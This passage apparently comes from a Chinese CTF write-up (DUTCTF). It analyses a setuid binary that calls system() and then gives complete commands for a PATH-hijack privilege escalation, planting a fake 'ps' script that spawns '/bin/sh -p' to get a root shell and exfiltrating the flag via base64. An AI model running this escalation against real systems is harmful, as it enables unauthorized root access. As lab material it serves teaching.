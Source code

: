 + 执行它时会启动 sh（即 shell）；
+ 它使用了 setuid 和 setgid；
+ 从 strings 输出来看，它使用了 system() 调用来执行命令；
+ 文件名来源为 whatisthis.c（说明可能是编译自某个源代码）；
+ 所以它大概率是用 C 写的一个简单提权工具：它运行后就直接调用了一个 shell。
可以使用 **PATH劫持** 让其运行我们自己写的ps脚本，从而获得真的 root shell。

```bash
# 依次运行以下语句
cat << 'EOF' > ~/ps
#!/bin/sh
# 这里利用当前的 EUID(0)启动一个交互式 shell
/bin/sh -p
EOF
chmod +x ~/ps
export PATH="$HOME:$PATH"
# 验证一下
which ps
# 应该输出 /home/test/ps 而不是 /bin/ps
/tmp/whatisthis
# 此时会看到一个新的#提示符

whoami   # 应该显示 root
id       # 此时显示 uid=0(root) gid=0(root) groups=0(root),1000(test)
cat /root/flag   

```
运行`cat /root/flag`后发现是含`flag.txt`的乱码，发现是被压缩成 flag.zip 了，尝试解压，发现`unzip`用不了，并且系统里没有装 python ，于是选择把这个 ZIP 包以 Base64 编码导出，然后到本地或其它环境里解码并解压。
运行
```bash
base64 /root/flag > /home/test/flag.b64
cat /home/test/flag.b64
```
复制 Base64 编码，到本地解压即可。
![](/src/assets/images/blog/DUTCTF/Terminal_3.png)

## Crypto

### stream&block
